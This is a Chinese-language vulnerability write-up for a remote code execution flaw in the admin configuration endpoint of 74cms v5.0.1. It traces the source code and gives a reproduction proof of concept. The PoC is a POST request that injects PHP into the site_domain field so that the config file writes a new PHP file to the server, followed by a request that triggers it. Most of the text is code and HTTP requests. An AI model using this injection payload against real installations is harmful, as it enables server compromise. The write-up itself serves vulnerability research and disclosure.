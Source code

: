 ```yaml
---
title: "74cms v5.0.1远程执行代码"
id: zhfly2794
---
```


# 74cms v5.0.1远程执行代码

## 一、漏洞简介

## 二、漏洞影响

74cms v5.0.1

## 三、复现过程

### 漏洞分析

![image](../img/0b5ac894c9d13952d8beb78a90b3c64a.png)

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 391
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default `site_name=骑士人才系统&site_domain=127.0.0.1&site_dir=/74cms/&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00省00市00路00号0大厦00楼&bottom_other=Copyright © 2019 [74cms.com](http://74cms.com) All Right Reserved &icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=` 
```

c=config&a=edit -> Controller=config&action=edit -> /Application/Admin/Controller/ConfigController.class.php Line 9: I('request.site_domain','','trim') -> trim($site_domain,'/') -> '.'.implode('.',$domain) -> array('domain'=>$domain) -> $this->update_config($config,CONF_PATH.'url.php')

```
public function edit(){
       if(IS_POST){
           $site_domain = I('request.site_domain','','trim');
           $site_domain = trim($site_domain,'/');
           $site_dir = I('request.site_dir',C('qscms_site_dir'),'trim');
           $site_dir = $site_dir==''?'/':$site_dir;
           $site_dir = $site_dir=='/'?$site_dir:('/'.trim($site_dir,'/').'/');
           $_POST['site_dir'] = $site_dir;
           if($site_domain && $site_domain != C('qscms_site_domain')){
               if($site_domain == C('qscms_wap_domain')){
                   $this->returnMsg(0,'主域名不能与触屏版域名重复！');
               }
               $str = str_replace('http://','',$site_domain);
               $str = str_replace('https://','',$str);
               if(preg_match('/com.cn|net.cn|gov.cn|org.cn$/',$str) === 1){
                   $domain = array_slice(explode('.', $str), -3, 3);
               }else{
                   $domain = array_slice(explode('.', $str), -2, 2);
               }
               $domain = '.'.implode('.',$domain);
               $config['SESSION_OPTIONS'] = array('domain'=>$domain);
               $config['COOKIE_DOMAIN'] = $domain;
               $this->update_config($config,CONF_PATH.'url.php');
           } 
```

/ThinkPHP/Common/functions.php第271行中的I（'request.site_domain'，''，'trim'）是字符串。request.site_domain-> $ _REQUEST ['site_domain']-> $ _ REQUEST ['site_domain']是字符串->修剪（$ _REQUEST ['site_domain']）

```
function I($name,$default='',$filter=null,$datas=null) {
    ...
    if(strpos($name,'.')) { // 指定参数来源
        list($method,$name) =   explode('.',$name,2);
    }else{ // 默认为自动判断
        $method =   'param';
    }
    switch(strtolower($method)) {
        case 'get'     :   
            $input =& $_GET;
            break;
        case 'post'    :   
            $input =& $_POST;
            break;
        ...
        case 'request' :   
            $input =& $_REQUEST;   
            break;
        ...
    }
    if(''==$name) { // 获取全部变量
      ...
        }
    }elseif(isset($input[$name])) { // 取值操作
        $data       =   $input[$name];
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                if(0 === strpos($filters,'/')){
                    if(1 !== preg_match($filters,(string)$data)){
                        // 支持正则验证
                        return   isset($default) ? $default : null;
                    }
                }else{
                    $filters    =   explode(',',$filters);                    
                }
            }elseif(is_int($filters)){
                $filters    =   array($filters);
            }

```
 if(is_array($filters)){
            foreach($filters as $filter){
                if(function_exists($filter)) {
                    $data   =   is_array($data) ? array_map_recursive($filter,$data) : $filter($data); // 参数过滤
                }else{
                    $data   =   filter_var($data,is_int($filter) ? $filter : filter_id($filter));
                    if(false === $data) {
                        return   isset($default) ? $default : null;
                    }
                }
            }
        }
    }
    if(!empty($type)){
      ...
}else{ // 变量默认值
    $data       =    isset($default)?$default:null;
}
is_array($data) &amp;&amp; array_walk_recursive($data,'think_filter');
return $data; 
``` `}` 
```

返回到/Application/Admin/Controller/ConfigController.class.php第29行：array（'SESSION_OPTIONS'=> array（'domain'=> $ domain），'COOKIE_DOMAIN'=> $ domain） -> update_config（$ config， CONF_PATH.'url.php'）

```
$config['SESSION_OPTIONS'] = array('domain'=>$domain);
$config['COOKIE_DOMAIN'] = $domain;
$this->update_config($config,CONF_PATH.'url.php'); 
```

/Application/Common/Controller/BackendController.class.php第467 行中的update_config（$ config，CONF_PATH.'url.php'）：

multimerge（$ config，$ new_config） -> file_put_contents（$ config_file，“ <？php \ nreturn”。stripslashes（var_export（$ config，true））。“;”，LOCK_EX）

```
 public function update_config($new_config, $config_file = '') {
        !is_file($config_file) && $config_file = HOME_CONFIG_PATH . 'config.php';
        if (is_writable($config_file)) {
            $config = require $config_file;
            $config = multimerge($config, $new_config);
            if($config['SESSION_OPTIONS']){
                $config['SESSION_OPTIONS']['path'] = SESSION_PATH;
            }
            file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX);
            @unlink(RUNTIME_FILE);
            return true;
        } else {
            return false;
        }
    }
} 
```

multimerge($config, $new_config) in /Application/Common/Common/function.php Line 938: no restricted

```
function multimerge($a, $b) {
    if (is_array($b) && count($b)) {
        foreach ($b as $k => $v) {
            if (is_array($v) && count($v)) {
                $a[$k] = in_array($k, array('SESSION_OPTIONS')) ? multimerge($a[$k], $v) : $v;
            } else {
                $a[$k] = $v;
            }
        }
    } else {
        $a = $b;
    }
    return $a;
} 
```

CONF_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF_PATH.'url.php' -> /Application/Common/Conf/url.php

```
defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
define('APP_PATH','./Application/'); 
```

var_export(): Quote string with slashes&Convert special characters to HTML entities -> stripslashes(): un-quotes a quoted string -> Convert special characters to HTML entities -> write file

```
file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";",LOCK_ 
```

/Application/Home/Conf/url.php: The code after "return array(...);" does not work, so payload is site_domain=', {your php code},'

```
<?php 
return array (
  'URL_MODEL' => 0,
  'URL_HTML_SUFFIX' => '.html',
  'URL_PATHINFO_DEPR' => '/',
  'URL_ROUTER_ON' => true,
  'URL_ROUTE_RULES' => 
  array (
    '/^jobfair\/(?!admin)(\w )$/' => 'jobfair/index/:1',
    '/^mall\/(?!admin)(\w )$/' => 'mall/index/:1',
  ),
  'QSCMS_VERSION' => '5.0.1',
  'QSCMS_RELEASE' => '2019-03-19 00:00:00',
  'SESSION_OPTIONS' => 
  array (
    'domain' => '.0.1',
    0 => 18,
    1 => '',
    'path' => 'D:\***\***\***\WWW\74cms\data\session',
  ),
  'COOKIE_DOMAIN' => '.0.1',
  0 => 18,
  1 => '',
); 
```

### 复现poc

-> PD9waHAgcGhwaW5mbygpOz8

site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8 ')),'

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 465
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default `site_name=骑士人才系统&site_domain=’, file_put_contents(‘403.php’,base64_decode(‘PD9waHAgcGhwaW5mbygpOz8+’)),’&site_dir=/74cms/&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00省00市00路00号0大厦00楼&bottom_other=Copyright © 2019 [74cms.com](http://74cms.com) All Right Reserved &icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=` 
```

```
GET /74cms/Application/Common/Conf/url.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

成功截图

![image](../img/9b3d3eb376e957d10325aa0ebda73dae.png)

## 四、参考链接

> https://github.com/kyrie403/Vuln/blob/master/74cms/74cms v5.0.1 remote code execution.md